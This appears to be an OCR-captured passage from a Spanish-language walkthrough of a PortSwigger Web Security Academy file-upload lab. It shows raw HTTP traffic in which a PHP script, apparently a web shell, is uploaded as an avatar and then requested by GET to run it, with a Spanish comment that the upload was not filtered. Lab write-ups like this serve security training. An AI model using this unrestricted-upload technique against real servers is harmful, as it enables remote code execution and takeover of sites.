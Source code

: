 ```python
SsIo5Fx3ho5EaMuJDTVqU0oLQmxEm1ym
------WebKitFormBoundaryst7AA5drUvw3CJ07--






RESPONSE:






HTTP/2 200 OK
Date: Mon, 29 Jan 2024 00:25:04 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 143

The file avatars/shellpaimonsitodos.php has been uploaded.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>






LUEGO DE CARGAR POR POST NUESTRO SCRIPT, DESDE LA REQUEST QUE TENIAMOS DEL INICIO DE SESION HICIMOS UNA SOLICITUD POR METODO GET AL SERVIDOR; DE LA RUTA DONCDE SE ALOJO NUESTRO SCRIPT EL CUAL NO FUE FILTRADO DE MANERA ADECUADA Y SE TENZO OBTUVIMOS LA RESPUESTA:




REQUEST:




GET /files/avatars/shellpaimonsitodos.php HTTP/2
Host: 0a480099031b0a4086dfdfbf00f000ef.web-security-academy.net
Cookie: session=uhnJSlUHYWt4hbcGZI22owgj9usoXTRi
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="118", "Google Chrome";v="118", "Not=A?Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Referer: https://0a480099031b0a4086dfdfbf00f000ef.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: es-419,es;q=0.9,en;q=0.8

```